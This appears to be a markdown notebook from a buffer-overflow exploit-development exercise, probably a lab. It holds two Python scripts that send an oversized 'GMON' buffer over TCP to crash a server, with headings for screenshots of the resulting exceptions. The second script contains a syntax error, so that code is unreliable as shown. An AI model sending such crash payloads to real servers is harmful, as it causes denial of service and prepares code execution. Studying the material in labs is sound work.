



# Initial payload

- Code

```
#!/usr/bin/python

import socket
import os
import sys
from struct import pack


host = sys.argv[1]
port = int(sys.argv[2])
egghunter = b""

buffer =  b"GMON "
buffer += b"./"*10000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print (s.recv(1024))
s.send(buffer)
print (s.recv(1024))
s.close()
```

- Screenshot



# Update Payload 00

## Code

```
#!/usr/bin/python

import socket
import os
import sys
from struct import pack

host = sys.argv[1]
port = int(sys.argv[2])
egghunter = b""

buffer =  b"GMON "rms
buffer += b"./"+b"A"*10000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print (s.recv(1024))
s.send(buffer)
print (s.recv(1024))
s.close()
```

## Screenshot
### 1st exception


### 2nd exception



